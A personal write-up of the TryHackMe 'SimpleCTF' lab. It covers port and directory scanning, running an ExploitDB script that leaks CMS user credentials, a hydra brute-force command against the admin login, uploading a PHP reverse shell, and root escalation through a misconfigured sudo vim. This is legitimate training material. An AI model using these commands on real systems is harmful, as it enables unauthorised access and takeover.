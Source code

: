 ## TryHackMe - [SimpleCTF](https://tryhackme.com/room/simplectf)
> Completed 28th June  2022.

This box ended up being an interesting less than straight forward boot2root exercise. I found myself struggling again once I needed to explore for privilege escalation vectors.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Hydra
- ExploitDB
- Metasploit / Netcat listener

---
### Methodology
#### Objectives/Flags
1. user flag
2. root flag

---
#### Reconnaissance
Started off by scanning the target for open ports and services.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
This revealed a web server that we can enumerate and an ssh service running on a custom port of `2222`. When navigating to the URL of the webserver we a met with a default Apache page which could hint at unconventional file structure. I loaded up `Gobuster` and got it to work scanning for directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP>/ -w <Wordlist> > <Outputfile>
```
```
//simple              (Status: 301) [Size: 313] [--> http://<TargetIP>/simple/]
```
Once we navigate to the `simple` directory, we are met with a webpage that appears be built using a CMS framework. We find a clue which may indicate that a user `mitch` exists on this machine. From here set `Gobuster` up to scan the new directory as I started walking through the page-source and hyperlinks and discover an admin login portal.
```bash
gobuster dir --url http://<TargetIP>/simple -w <Wordlist> > <Outputfile>
```
```
//uploads             (Status: 301) [Size: 319] [--> http://10.10.7.140/simple/uploads/]
//admin               (Status: 301) [Size: 317] [--> http://10.10.7.140/simple/admin/]    
```

After searching the CMS framework version on ExploitDB, a script is suggested to us to take advantage of a vulnerability in the framework. The script required some tweaking to its syntax to get it to run properly.
```bash
python 46635.py -u http://<TargetIP>/simple/
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2.
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
The script confirms user `mitch` is present on the target and reveals to us an admin email address. Unfortunately, the exploit failed to crack the password because of an unknown error. Due to my limited knowledge, I couldn't remediate it.
As a work around I tried to put hydra to work for some old-fashioned brute force. While this is not a realistic option, I've wanted to see it in action for this scenario.
```bash
hydra -l mitch -P <wordlist> <TargetIP> http-post-form "/simple/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:S=302"
```
```
[80][http-post-form] host: 10.10.194.228   login: mitch   password: secret
```
With the password found, I found an administration panel in where files are able to be uploaded. 
#### Weaponization 
- N/A

#### Delivery
- N/A

#### Exploitation
Here I prepped a `.phptml` file shell and uploaded it to the server. Once I set up a listener and navigated to the malicious file through the URL, the reverse shell fired.
```bash
id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
- N/A

#### Command & Control
- N/A

#### Actions on Objective
Here I managed to discover that VIM was set up with incorrect permissions that would allow me to privesc by executing bash.
```
sudo -l
  User mitch may run the following commands on Machine:
  (root) NOPASSWD: /usr/bin/vim
```
```bash
sudo vim
```
```vim
:!bash
```
```bash
id
  uid=0(root) gid=0(root) groups=0(root)
```

Once I made it to root, searching for loot went without a hitch.
```
cat /home/mitch/user.txt
  THM{***}
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
- There wasn't much to take away from this box up until I hit the need for privilege escalation. I spent some time scratching my head until I found the misconfigured permissions for VIM. This was the first time I've used VIM and I'd have to say it seems unnecessarily complicated.

#### What I would've done differently
- N/A

